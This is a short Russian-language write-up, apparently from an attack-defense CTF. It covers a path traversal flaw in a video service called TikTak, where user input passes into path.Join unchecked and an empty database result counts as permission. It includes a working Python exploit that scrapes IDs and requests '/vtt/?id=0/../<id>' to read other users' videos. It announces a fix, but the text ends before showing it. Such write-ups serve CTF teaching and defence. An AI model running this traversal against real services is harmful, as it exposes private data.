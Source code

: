# Path traversal в TikTak

Отсутствие проверки в handleVtt и использование path.Join с вволом пользователя приводит к чтению произовльных видео

Пустой результат от базы данных трактуется как разрешенный


sploit для destructive farm

```
import requests
import sys
import re


base_url = "http://" + sys.argv[1] + ":4000"

ids = re.findall(r'D:</b> (\d+)<', requests.get(base_url + '/feed').text)

for id_ in ids:
    print(id_)
    print(requests.get(base_url + "/vtt/?id=0/../" + id_).text)
```

Для исправления достаточно проверять, что результат не пуст:

